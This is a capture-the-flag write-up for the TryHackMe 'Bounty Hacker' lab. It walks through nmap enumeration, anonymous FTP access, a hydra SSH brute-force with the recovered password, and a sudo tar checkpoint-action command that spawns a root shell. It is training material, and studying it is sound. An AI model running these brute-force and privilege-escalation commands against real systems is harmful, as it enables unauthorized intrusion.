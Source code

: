 
<pre lang="md">
# Bounty Hacker — TryHackMe Write-Up

**Difficulty:** Easy  
**Room Link:** https://tryhackme.com/room/cowboyhacker

---

## 🛰️ Enumeration

I started with a basic Nmap scan to find open ports on the target machine:

```bash
sudo nmap -sV -Pn 10.10.39.210
```

**Scan Results:**
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu
80/tcp open  http    Apache httpd
```

---

## 📁 FTP Access

I checked if anonymous login was allowed:

```bash
ftp 10.10.39.210
# Username: anonymous
# Password: (blank or any)
```

It worked! I found two files:
- `task.txt` (mentions a user named *lin*)
- `locks.txt` (looked like a password list)

---

## 🧪 Brute-Forcing SSH

Since port 22 (SSH) was open and I had a user (`lin`) and a possible wordlist (`locks.txt`), I used `hydra` to brute-force the password:

```bash
hydra -l lin -P locks.txt ssh://10.10.39.210
```

**Result:**
```
[22][ssh] host: 10.10.39.210   login: lin   password: RedDr4gonSynd1cat3
```

---

## 🔑 SSH Access

With credentials in hand, I logged in:

```bash
ssh lin@10.10.39.210
  password: RedDr4gonSynd1cat3
```

Then grabbed the first flag:

```bash
cat user.txt
```

---

## 🚀 Privilege Escalation

I checked for `sudo` permissions:

```bash
sudo -l
```

**Output:**
```
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

That was the breakthrough. Using GTFOBins, I ran the following command to spawn a root shell:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

The prompt changed from `$` to `#`, confirming root access.

---

## 🏁 Root Flag

Then I just grabbed the final flag:

```bash
cat /root/root.txt
```

---

## 🧠 Lessons Learned

- How to check for and exploit anonymous FTP access
- Using Hydra to brute-force SSH login with a custom wordlist
- Leveraging GTFOBins for privilege escalation with `tar`
- Practice writing documentation in Markdown and using GitHub

---






